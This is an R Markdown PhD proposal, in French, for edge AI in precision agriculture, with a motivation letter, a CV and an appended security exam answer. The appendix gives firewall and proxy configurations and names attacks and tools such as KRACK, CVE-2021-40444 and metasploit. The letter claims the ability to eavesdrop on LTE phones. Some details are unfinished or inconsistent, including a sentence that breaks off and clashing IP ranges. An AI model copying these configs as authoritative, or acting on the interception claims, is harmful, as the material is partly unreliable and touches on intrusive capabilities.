De nos jours, l'agriculture nécessite une attention particulière pour éviter une mauvaise utilisation des pesticides et de l'eau, par exemple. Pour être en mesure de faire face à cela, l'agriculteur doit savoir ce qu'il peut et ne peut pas faire. Cette thèse a pour prétention de combler l'écart entre les connaissances des agriculteurs et des informaticiens. De cette manière, nous devons intégrer les connaissances des agriculteurs et proposer quelque chose de facile à utiliser pour l'aider à devenir un utilisateur final de thèmes tels que l'IA ou LoRa. Il est dommage qu'à partir de maintenant, il ne puisse pas utiliser ces technologies alors qu'elles seraient des outils vraiment utiles pour superviser et agir sur ses champs.

## 2 - Contexte

### Les besoins de l'agriculture de précision

L'agriculture de précision vise à maximiser la production tout en minimisant l'utilisation des ressources naturelles et en réduisant les impacts environnementaux. Cela nécessite une collecte précise de données sur les sols, les cultures et les conditions météorologiques, ainsi qu'une surveillance continue des conditions de croissance pour permettre des interventions en temps réel. L'agriculture de précision repose sur des technologies avancées telles que l'intelligence artificielle (IA), les capteurs, les drones et les systèmes de communication en réseau.

### Les défis actuels de l'agriculture de précision

L'un des principaux défis de l'agriculture de précision est de combiner efficacement les connaissances agronomiques avec les technologies avancées. Les agriculteurs ont souvent une connaissance pratique approfondie de leurs cultures et de leurs sols, mais ils peuvent manquer de compétences en informatique pour tirer le meilleur parti des technologies de précision. D'autre part, les ingénieurs et les informaticiens peuvent avoir une compréhension limitée des besoins et des contraintes du monde agricole, ce qui peut entraîner des solutions techniques qui ne sont pas adaptées à la réalité du terrain.

## 3 - Solution proposée : APOGÉ

Pour répondre à ces défis, nous avons développé APOGÉ - l'intelligence Artificielle en Périphérie pOur l'aGriculture de prÉcision. Il s'agit d'une solution de surveillance et de contrôle de l'agriculture de précision basée sur l'IA, qui utilise des capteurs décentralisés pour collecter des données en temps réel sur les conditions de croissance des cultures. Les données sont traitées localement, sans avoir besoin d'une connexion Internet constante, ce qui permet d'économiser de l'énergie et de réduire les coûts de communication.

APOGÉ utilise des algorithmes d'apprentissage automatique pour analyser les données collectées et fournir des recommandations précises pour optimiser la production de cultures. Les recommandations sont présentées à l'agriculteur sous forme de

## 4 - Processus :

Nous avons choisi d’utiliser un drone pour survoler les champs de l’agriculteur et vérifier ses plantations. Nous avons choisi le processeur NVIDIA Jetson pour le traitement des données avec l’IA utilisant Edge pour éviter autant que possible l’utilisation du cloud. En effet, Jetson devrait suffire pour une première vue de ce projet. Et aussi longtemps qu’il s’agit d’électronique embarquée, la dissipation de puissance devrait être inférieure à celle d’un ordinateur traditionnel et nous pouvons le placer sur le drone. Les moyens de communication se feront par Wi-Fi et LoRa :

- Wi-Fi pour la collecte de données massive
- LoRa pour traiter les requêtes précises et ciblées

## 5 - Méthodologie 

Pour commencer, nous devrons définir les exigences de notre système, qui seront basées sur les besoins exprimés dans la section précédente. Cela nous permettra de déterminer les composants matériels et logiciels nécessaires pour construire notre solution. Ensuite, nous concevrons l’architecture globale de notre système, en prenant en compte les différents composants matériels et logiciels nécessaires. Cette étape nous permettra d’identifier les éventuels points de blocage ou de dysfonctionnement de notre solution, ainsi que les solutions à apporter.

Après avoir conçu l’architecture globale, nous nous concentrerons sur la mise en place des différents composants de notre système. Cela inclura notamment l’installation et la configuration de tous les logiciels nécessaires, ainsi que le déploiement du matériel sur site.

Une fois que tous les composants auront été installés et configurés, nous procéderons à des tests de validation pour nous assurer que notre solution répond aux exigences fonctionnelles et non fonctionnelles définies précédemment. Nous effectuerons également des tests de performance pour nous assurer que notre système peut traiter les données dans des délais raisonnables.

Enfin, nous livrerons le système au client, accompagné d’une documentation complète sur son fonctionnement, sa maintenance et sa gestion. Nous formerons également le personnel du client sur l’utilisation du système et fournirons un support technique pour répondre à toutes les questions ou problèmes éventuels. Nous allons utiliser le service cloud de WeeNat (https://weenat.com/) pour cette étude.

## 6 - Enjeux et anticipations:
- La surveillance et l’utilisation d’un champ agricole par EDGE-IA permettront de réduire les coûts pour l’utilisateur.
- Préservation de l’écosystème (avec la détection des maladies, l’agriculteur peut éviter d’utiliser des pesticides et ne traiter que les maladies qui affectent ses parcelles).
- Partager ses données en échange d’argent ou d’autres données.
- Apposer une étiquette indiquant qu’il n’a pas utilisé de pesticides et que ses cultures sont saines.

## 7 - Motivations

Passionné de radio-télécommunications depuis 10 ans, je suis ravi de partager mes connaissances avec ceux qui peuvent les comprendre. Avec des compétences en télécommunications mobiles (GSM -> 5G-SA) et en LoRa, je suis bien placé pour aborder le sujet proposé. Peu de personnes sont capables de comprendre ces protocoles, ce qui me donne une perspective unique sur le sujet.


J'ai l'habitude de travailler avec du matériel bon marché, comme les clones électroniques chinois, et de les faire fonctionner avec peu de documentation. J'ai également de l'expérience en rétro-ingénierie pour faire fonctionner d'anciens logiciels. La sécurité en radio-télécommunications est un sujet qui m'intéresse particulièrement. Je préfère cela plutôt que le domaine de la sécurité TCP/IP, qui est traité par des personnes plus compétentes que moi.

La radio n'est pas largement étudiée par la plupart des gens, mais je peux écouter un téléphone jusqu'à LTE (Long Term Evolution) et Android 11, tant que le téléphone est dans ma plage de fréquences radio. Passionné de Linux depuis des années également (il est livré avec les télécommunications), je suis compétent en bash, C et réseaux. J'ai appris à lire de longs codes et à m'en sortir avec ceux-ci. J'ai également l'expérience de plusieurs architectures, comme les 32 bits, AMD64, ARM, ARM64, RISC-V, ESP32, Arduino microcontrôleurs, STM32, et je pense que le Jetson Nano (ARM64) ne sera pas trop difficile à utiliser pour moi.

Je suis autonome et je n'ai pas besoin de beaucoup de soutien tant que j'ai travaillé sans cela depuis des années. J'ai peu travaillé avec l'IA, mais je suis capable de l'utiliser. J'ai testé quelques scripts Python utilisant Kaggle. J'ai également des compétences en enseignement, ayant été enseignant au lycée Déodat de Severac de Céret. J'ai également présenté à l'Université de Perpignan via Domitia.

J'ai souhaité obtenir un doctorat depuis de nombreuses années, mais ma maladie ne m'a pas aidé dans cette entreprise. Cependant, cela m'a rendu plus résilient et j'ai appris à ne pas être trop fier. Avec plusieurs domaines d'expérience et de compétences ainsi que des diplômes anciens, j'espère que vous accepterez mon projet de thèse. Ce serait un honneur pour moi de faire de mon mieux pour le mener à bien.

Cordialement,

- Bastien Baranoff

```{r, echo=FALSE, warning=FALSE} 

library(ggplot2)
library(DiagrammeR)

# Création de la structure de données
mermaid("

gantt

dateFormat  YYYY-MM-DD

title Diagramme de GANTT d'un projet QSE


section Prise en main

Engagement de la direction           :crit,done,   p_en_main_1,    2018-09-01, 2018-09-08

Description de la ferme              :done,        p_en_main_2,    2018-09-08, 3w

Rédaction de la gestion documentaire :done,        gestion_doc,    2018-09-06, 10d

Rédaction des procédures             :active,      p_en_main_4,    after gestion_doc, 30d


section Analyses des problèmes et causes

Lister les problème                 :active,      pb_1,   2018-10-06,     24h

Identifier les causes               :active,      pb_2,   after pb_1,     1w

Sélectionner les causes             :active,      pb_3,   after pb_2,     1w

Construire les graphiques           :active,      pb_4,   after pb_3,     1w


section Mise en place des Solutions

Rédaction                           :active,      fin_1,     after pb_3,  3d

Application                         :active,      fin_2,     after fin_1, 1w

Rédaction du diaporama              :crit,        fin_3,     after fin_2, 48h

")

```

\newpage

# Apendix

\newpage
# Examen sécurité de l'information

## Descriptif

Contexte La ville de Cabestany (Pyrénnes-Orientales) va monter son
université spécialisée en chimie.

-   Elle est composée de 50 personnels administratifs et techniques et
    de 50 enseignants chercheurs
-   Elle enseigne la chimie à 3000 étudiants
-   Elle a un laboratoire spécialisé dans les dissolvants à haute
    performance (avec 20 chercheurs et 2 secrétaires administratives).

## Les livrables:

## Politique de sécurité

-   Faites une analyse de risques, en précisant les interlocuteurs que
    vous interrogerez et les réponses probables (ou simplement que vous
    imaginez) que vous obtiendrez. Personnel administratif Questions à
    poser "Quels sont les logiciels que vous allez utiliser" Reponses :
    Secrétaires "Suite Microsoft Office, Firefox (Même si ils veulent
    Chrome ou Edge... ), Windows 10 avec mise à jour forcées
    automatique, Impossibilité d'installer des logiciels (Système de
    ticket si nécessité) accès à l'intranet CRM, cloud" Questions à
    poser 50 enseignants chercheurs 1 (ou +) poste par enseignants
    "Logiciels Labview, Matlab, COMSOL disponibles sur serveurs
    administratifs, accès l'intranet CRM Cloud, Logiciels scientifiques"

\"Nombres d'ordinateurs? Puissance? OS? Services ?\"

Réponses attendues : Besoin de SIP pour communiquer avec des secteurs de
recherches géographiquement eloigné. besoin de contrôle à distance pour
travail chez soi, besoin de calculateurs, selon les avis Windows MacOS
linux, besoin de mise en place de ticket pour les problèmes techniques
(panne d'ordinateur)

L'identité de l'utilisateur peut être établie l'ID du VLAN et le
matériel utilisé par son adresse MAC. On fait le choix de proscrire le
Wifi "Public" du moins les trames en clair sur le réseau. Et l'on
restreint au maximum les utilisateurs de Wifi sachant que l'on a 500
adresses IP pour 50+50+4\*25+10\~210 postes. On a la marge pour que les
enseignants (les secrétaires étant pas forcéments amenés a se deplacé
avec une nécissité d'ordinateur a travers la faculté) puisse bénéficier
d'un réseau Wifi. \`\`\` Après il faut "éduquer" sachant que les réseaux
Wifi (avec les Wifis Pineapple, Krack attacks,ou les rogues AP) ne sont
jamais complètement sécurisés. Préciser que si il n'y a pas le cadenas
qui garanti le chriffrement de la page sur l'URL le mot peut être
lisible par une personne en position d'homme du milieu. Et qu'en matière
de sécurité il s'agit beaucoup plus souvent de conditions nécessaires à
une transaction sécurisée et très rarement voire jamais suffisantes.
Analyse de risques

Risques internes (volontaires): Arnaque aux numéros surtaxés Clone de
badge RFID/NFC (Wireless) Human Interface Device Mise en place de
payload Apache/exe/... Risques interne (involontaires) : Bring Your Own
Device Ouverture d'un .docx vérolé (CVE-2021-40444)

## Sécurisation d'un système informatique

-   Comment structurez-vous votre réseau?
-   Quels équipements mettez-vous et où?
-   Indiquez, quand cela est possible, comment vous les paramétreriez
    soit avec des fichiers de configuration, soit avec des explications
    « textuelles », par exemple

Soit mettre des iptables Soit expliquer que tel réseau a accès à tel
autre pour tel service. - Quelles procédures mettez-vous en place? -\>
Administratives ? -\> Techniques ? - Faites-vous appel ou pas à des
prestations externes? Il n'est pas obligatoire de mettre tout ce qu'il
est possible d'envisager - Comment structurez-vous votre réseau?
Informatiquement -\> Elle a un réseau en 193.49.49.0/23 (pas /24 !)

``` bash
nirvana@hp:~$ ipcalc 193.49.49.0/
Address: 193.49.49.0 11000001.00110001.0011000 1.
Netmask: 255.255.254.0 = 23 11111111.11111111.1111111 0.
Wildcard: 0.0.1.255 00000000.00000000.0000000 1.
=>
Network: 193.49.48.0/23 11000001.00110001.0011000 0.
HostMin: 193.49.48.1 11000001.00110001.0011000 0.
HostMax: 193.49.49.254 11000001.00110001.0011000 1.
Broadcast: 193.49.49.255 11000001.00110001.0011000 1.
Hosts/Net: 510 Class C
```

5 serveurs, sous Unix, s'occuperont des logiciels administratifs
(appelez les adm1, adm2, etc.) On choisira le système d'exploitation
Ubuntu (Par préférence personnelle sur RedHat) mais l'on prendra la
version d'Ubuntu avec le support Advantage : CF
(<https://ubuntu.com/support>) Ubuntu Advantage Security, support and
managed open source for enterprises Future-proof the full stack, from
the data centre to containers to the database, LMA, server and
cloud-native applications with open source software support from
Canonical. Ubuntu Advantage is a single, per-node package of the most
comprehensive enterprise security and support for open source
infrastructure and applications, with managed service offerings
available.

    adm1.univ-cabes.frdédié aux CRM (exemple : Odoo)IP_CRM=192.9.48.5
    adm2.univ-cabes.frCloud Privé Datadoghq (Supervision, Monitoring, stockage, déploiement kubernetes docker aws... )IP_CLOUD=192.49.48.4
    adm3.univ-cabes.fr Logiciels Scientififiques (Matlab COMSOL... ) IP_SOFT=192.49.48.3
    adm4.univ-cabes.frAuthentification (LDAP, Active Directory)IP_AUTH=192.49.48.2
    adm5.univ-cabes.frVirtualisation, Monitoring, Sécurisation, Tests et détecteurs d’intrusions.IP_SEC=192.49.48.1

Chaque personnel a un ordinateur individuel sous Windows. On choisi le
sous-réseau192.49.48.0/24pour le personnel et les chercheurs 50
personnels administratifs et techniques 1 Poste Windows/Personne

Les étudiants ont 4 salles de TP informatique pour 25 ordinateurs. On
choisi le sous-réseau 192.49.49.0/24 Il y a aura un serveur de fichiers
ftp.univ-cabes.fr port 21 Une IP_DMZ 192.49.48.6 Un Frontend 192.49.48.7
puis un backend 192.49.48.8 comprennant : une messagerie interne Serveur
Psotfix/ client RoundCUBE SMTP port 465 Authenticated SMTP over SSL Port
(TLS) Non (SSL) Oui smtp.univ-cabes.fr Serveur imap Port SSL : 993
imap.univ-cabes.fr DNS port 53 dnsmasq Web port 80 443 Serveur web Nginx
<http://www.univ-cabes.fr> Proscrire le DHCP (pour éviter le DHCP
Snooping) VLAN par ID + Password (pour éviter le MAC Spoofing) IP Fixée
par l'id du VLAN.

    IP_BACKEND=192.49.48.8
    IP_FRONTEND=192.49.48.7
    IP_DMZ=192.49.48.6
    IP_PUB_DMZ=12.34.56.78

    ./protect_backend.sh
    iptables -P FORWARD DROP # we aren't a router
    iptables -A INPUT -m state --state INVALID -j DROP
    iptables -A INPUT -m state --state RELATED,ESTABLISHED -j ACCEPT
    iptables -A INPUT -i lo -j ACCEPT
    iptables -A INPUT -p tcp -s $IP_FRONTEND --dport 443 -j ACCEPT
    iptables -A INPUT -p tcp -s $IP_FRONTEND --dport 21 -j ACCEPT
    iptables -A INPUT -p tcp -s $IP_SEC --dport 22 -j ACCEPT
    iptables -P INPUT DROP _# Drop everything we don't accept_
    ./protect_frontend.sh
    iptables -P FORWARD DROP _# we aren't a router_
    iptables -A INPUT -m state --state INVALID -j DROP
    iptables -A INPUT -m state --state RELATED,ESTABLISHED -j ACCEPT
    iptables -A INPUT -i lo -j ACCEPT
    iptables -A INPUT -p tcp -s $IP_SEC -j ACCEPT
    iptables -A INPUT -p tcp --dport 21 -j ACCEPT
    iptables -A INPUT -p tcp --dport 80 -j ACCEPT
    iptables -A INPUT -p tcp --dport 443 -j ACCEPT
    iptables -P INPUT DROP _# Drop everything we don't accept_

remise_a\_zero.sh

    iptables -F
    iptables -X
    iptables -t nat -F
    iptables -t nat -X
    iptables -t mangle -F
    iptables -t mangle -X
    iptables -P INPUT ACCEPT
    iptables -P FORWARD ACCEPT
    iptables -P OUTPUT ACCEPT

Serveur web Nginx backend /etc/apache2/nginx/000-default.cfg

    server {
        listen 443 ssl;
        listen [::]:443 ssl;
        ssl_certificate /etc/letsencrypt/live/www.univ-cabes.fr.store/fullchain.pem;
        # managed by Certbot
        ssl_certificate_key /etc/letsencrypt/live/www.univ-cabes.fr/privkey.pem;
        # managed by Certbot
        server_name univ-cabes.fr;
        root /var/www/;
        index index.php index.html;
        location ~* /orig/(.+\.jpg)$ {
        add_header Content-disposition "attachment; filename=$1";
    }
    location / {
        # This is cool because no php is touched for static content.
        # include the "?$args" part so non-default permalinks
        # doesn't break when using query string
        try_files $uri $uri/ /index.php?$args;
    }
        location /wp-admin/ {
        index index.php
        try_files $uri $uri/ /index.php?$args;
    }
        location ~\.php$ {
            try_files $uri =404;
            fastcgi_split_path_info ^(.+?\.php)(/.+)$;
            fastcgi_pass unix:/var/run/php7.4-fpm-example.sock;
            fastcgi_index index.php;
            fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
            include /etc/nginx/fastcgi_params;
        }
    }

Serveur Frontend :

Reverse Proxy

haproxy.cfg

    # timeouts so that long-running CLI commands will work.
    global
    maxconn 256
    log 127.0.0.1 local0 debug

    defaults
    log global
    maxconn 200
    timeout connect 5s
    timeout client 5min
    timeout server 5min

    frontend Local_Server
    bind $IP_FRONTEND:443 ssl crt /etc/letsencrypt/live/univ-cabes.fr/fullchain.pem
    acl is-blocked-ip src -f /etc/haproxy/blocklisted.ips
    http-request deny if is-blocked-ip
    # use a stick table to track request rates
    stick-table type ip size 100k expire 2m store http_req_rate(1m)
    http-request track-sc0 src
    # Deny if they exceed the limit
    acl too_many_requests sc_http_req_rate(0) gt 20
    http-request deny deny_status 429 if too_many_requests
    acl network_allowed src $IP_PUB_DMZ
    tcp-request connection reject if !network_allowed
    option tcplog
    mode tcp
    default_backend web
    backend web
    mode tcp
    option ssl-hello-chk
    server web $IP_BACKEND:443 ssl verify none

/etc/apache2/sites-enabled/000-default.cfg

    <VirtualHost *:80>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html
        Redirect permanent / https://univ-cabes.fr/
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
    </VirtualHost>

Le Poste 192.49.48.1 a accès à tous les réseaux (réseau Sécurisation) et
toutes les machines Le sous-réseau 192.49.48.0/24 a accès a l'ensemble
du réseau 192.49.49.0/24 (accès au cloud, CRM logiciels scientifiques,
Web, messagerie, DNS) Le sous réseau 192.49.49.0/24 (réseau étudiant n'a
accès qu'à son propre sous réseau) on laissera tout de même un accès au
"cloud" et aux "logiciels scientifiques" sur demande de l'enseignant
avec un iptables FORWARD, plus un accès à la messagerie (accès
RoundCUBE) et au Web bien sûr en comptant que tout le monde est sensé
disposer de cet accès.

    .------------------------------------------------.
    |.---------.       .------------.                |
    ||Etudiants|------>|Serveurs    |   .--------.   |
    |.---------.       |FTP,SMTP,DNS|   |Web     |   |
    |.---------.       |Web_backend |<->|Frontend|<->|<->RENATER<->(Internet)
    ||Scolarité|------>|Imap Adm1-5 |   .--------.   |                 DMZ
    |.---------.       .------------.                |
    .------------------------------------------------.
                        Intranet

-   Quelles procédures mettez-vous en place? -\> Administratives?
    Contacter RENATER leur demander une ligne avec du 1Gb/s soit
    ((1GB/s)/500 Postes)=2Mb/s pour tous les postes en condition maximum
    d'utilisation). Vérifier si les mesures sont conformes avec
    l'ISO-27001

-\> Procédures techniques

DNS menteur Google safe search Machine 192.49.48.1 Nessus Shinken
iptables accept sur l'ensemble du réseau squid sur tous les serveurs
haproxy en reverse proxy sur le front-end WinJa sur les ordinateurs
Windows qui scanne et verifie sur VirusTotal un ensemble de fichiers
Mise en place d'un honeypot avec acl de haproxy qui rejettent les IP
atteignant ce honeypot. On fait en sorte que l'identité de l'utilisateur
soit établie avec l'ID du VLAN et le matériel utilisé par son adresse
MAC. On fait le choix de proscrire le Wifi "Public" du moins les trames
en clair sur le réseau.

Perspectives : Mise en place d'une boîte noire qui intercepte l'ensemble
des trames (en clair si possible) qui les stocke, impossibles d'accès
sans procédure judiciaire.

# Curriculum Vitae

``` python
# Python program to say hello via bash cmd 
# importing os module 
import os 
# Command to execute
cmd = 'echo "Bonjour le monde"'
# Using os.system() method
os.system(cmd)
```

## Formation

``` bash
vi formation.c
```

``` c
#include <stdio.h>
int main(void) {
    printf("Université de Perpignan Via Domitia\n\n");
    printf("* Licence Electronique Electrotechnique Automatique %i-%i\n     - Validée Mention Passable\n",2003,2006);
    printf("* Master Recherche Electronique Automatique Informatique %i-%i\n     - Validé Mention Assez Bien\n",2011,2013);
    printf("* Licence Professionnelle Administration Systèmes et réseaux %i-%i\n     - Validée Mention Assez Bien\n",2020,2021);
    return 1
}
```

``` bash
Ctrl^C :wq!

gcc formation.c -o formation

./formation

Université de Perpignan Via Domitia

* Licence Electronique Electrotechnique Automatique 2003-2006
     - Validée Mention Passable
* Master Recherche Electronique Automatique Informatique 2011-2013
     - Validé Mention Assez Bien
* Licence Professionnelle Administration Systèmes et réseaux 2020-2021
     - Validée Mention Assez Bien
```

## Expérience

-   Petits travaux saisonniers
-   Electricien du Bâtiment
-   2013 - ProMES-CNRS Automaticien
-   2017 - Enseignement Secondaire STI2D
-   2019 - Consultant Tata Advanced Systems Limited
-   2021 - ( Ne peut citer le nom de l\'entreprise Clause de
    Confidentialité ) Télécomunications ( Téléphonie, RFID-NFC )
-   2021 - ProMES-CNRS : Mise en place d\'un Traqueur GPS over LoRa

## Compétences

``` bash
echo "bash"
```

``` c
printf("c");
```

-   LoRa
-   Mobile Networks
-   RFID / NFC

``` python
print("python")
```

-   Sécurisation Réseaux

    -\> Haproxy ( Backend/Frontend + iptables )

    -\> Audit de sécurité nmap \| OpenVAS \| nikto.pl \| metasploit \|
    Shodan

## Réseaux Sociaux

```{=html}
<a href="https://www.linkedin.com/in/bastienbaranoff"> </a>
<a href="https://youtube.com/bastienbaranoff"> </a>
<a href="https://github.com/bbaranoff"> </a>
<a href="https://discord.gg/wmd5EFqzjt">     </a>
```
So\...


```{r, echo=FALSE}
library("cli")
  clean <- function() {
  cli_progress_bar("Cleaning data", total = 100)
  for (i in 1:100) {
    Sys.sleep(5/100)
    cli_progress_update()

  }
}
  
clean()
```
# Bibliography

---
nocite: '@*'
---


